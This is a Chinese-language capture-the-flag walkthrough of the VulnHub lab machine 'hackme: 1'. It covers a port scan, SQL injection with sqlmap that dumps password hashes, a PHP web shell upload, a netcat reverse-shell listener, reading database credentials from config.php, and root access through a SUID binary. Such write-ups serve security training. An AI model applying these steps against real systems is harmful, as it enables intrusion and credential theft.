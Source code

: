 # hackme: 1

2025.02.27 https://www.vulnhub.com/entry/hackme-1,330/

这个靶机使用 virtualbox 导入有问题，使用 vmware 可以导入。

[video](https://www.bilibili.com/video/BV13B9wYPEQ8/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.10.152

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页直接跳转到 http://192.168.10.152/login.php 目前没有用户名和密码。

目录扫描发现http://192.168.10.152/uploads/ 里面有个 test.png 图片，图片没隐写。

到注册页面先注册个用户 http://192.168.10.152/register.php 进入到系统后是一个查询功能，可能存在 SQL 注入，将请求数据包保存到 txt 中，然后使用 sqlmap 跑出数据：

```
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapphacking

sqlmap -r req.txt --batch -D webapphacking -T users --dump

+----+--------------+------------+----------------+---------------------------------------------+
| id | name         | user       | address        | pasword                                     |
+----+--------------+------------+----------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983            | --> Uncrackable
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | testtest     | testtest   | testtest       | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
+----+--------------+------------+----------------+---------------------------------------------+
```

superadmin 的密码在线找到为 Uncrackable ，先用一下这个用户进行登陆，看看有哪些特殊权限，发现登陆后能够上传文件，直接上传 php shell 没有被拦截，并且可以在 http://192.168.10.152/uploads/ 中看到，直接访问，把 shell 反弹的 kali 上：

```
nc -lvnp 8888
curl http://192.168.10.152/uploads/8888.php
```

得到反弹的 shell，/var/www/html 中读取到 config.php 中的数据库配置信息：

```
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'hackme1qaz@WSX');
define('DB_NAME', 'webapphacking');
```

同时发现 1 个用户 hackme，但是上面这个数据库的连接密码不是这个用户的。

发现 suid 程序 /home/legacy/touchmenot，运行后直接得到了 root 权限。

对这个程序进行逆向看到了大概的源码信息：

```
int32_t main (void) {
    edi = 0;
    setuid ();
    edx = 0;
    rsi = "bash";
    rdi = "/bin/bash";
    eax = 0;
    execl ();
    eax = 0;
    return eax;
}
```
